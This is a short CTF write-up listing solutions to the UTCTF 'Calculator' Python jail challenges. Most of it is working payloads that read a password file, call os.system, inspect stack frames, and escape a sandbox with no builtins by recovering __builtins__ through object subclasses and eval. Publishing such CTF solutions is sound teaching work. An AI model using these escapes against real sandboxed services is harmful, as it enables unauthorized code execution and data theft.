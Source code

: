 
# Calculator
* **Event:** UTCTF
* **Problem Type:** Misc (moved to Web)
* **Point Value / Difficulty:** Medium


This is just solutions so far; at some point I'll write a better writeup.

Some useful tools for escaping pyjails, that someone linked during the CTF:  
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes

# Problem 0

Solutions:  
input: `solution`  
input: `password`

Any of the solutions for later problems should work for this one.

# Problem 1

Solutions:
```py
__import__('io').open('password.txt').read()
__import__('builtins').open('password.txt').read()
__import__('os').system('cat password.txt')
```

Any of the solutions for later problems should work for this one.


# Problem 2

Originally intended solutions:
```py
[frame.frame.f_locals.get("password") for frame in __import__("inspect").stack()]
[frame.frame.f_locals for frame in __import__("inspect").stack() if not ("<" in frame.filename or "/usr/lib" in frame.filename)]

__import__('sys')._getframe(1).f_locals["password"]  # May have to adjust the stack depth
```

Other solutions people came up with:
```py
__import__("__main__").password                  # Uh, whoops... (this wasn't an intended solution, but it's creative)
type('A', (), {'__eq__': lambda x,y: True})()    # Make a class that always returns true to comparisons
__import__('importlib').import_module('unittest.mock').ANY   # Same as above, using a library
```

Some people used `__import__('random').getstate()` and rolled back the random state to get the answer --
it's really interesting, but I have no clue how to actually implement that.

# Problem 3

This one requires escaping a python jail without builtins; it's a reasonably well documented
problem, with a variety of different solutions.  I like these ones because they're more general
and not specific to the problem itself (ie. it's easy to run arbitrary code):

Solutions:
```py
(lambda cls=(lambda n:[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__==n][0]):
    lambda __builtins__=(cls("catch_warnings")()._module.__builtins__):
        [frame.frame.f_locals.get("password") for frame in __builtins__["__import__"]("inspect").stack()]
)()()

(lambda b=((lambda n:[c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__==n][0])("catch_warnings")()._module.__builtins__):
    b["eval"]("""[frame.frame.f_locals.get("password") for frame in __import__("inspect").stack()]""", {"__builtins__": b})
)()
```


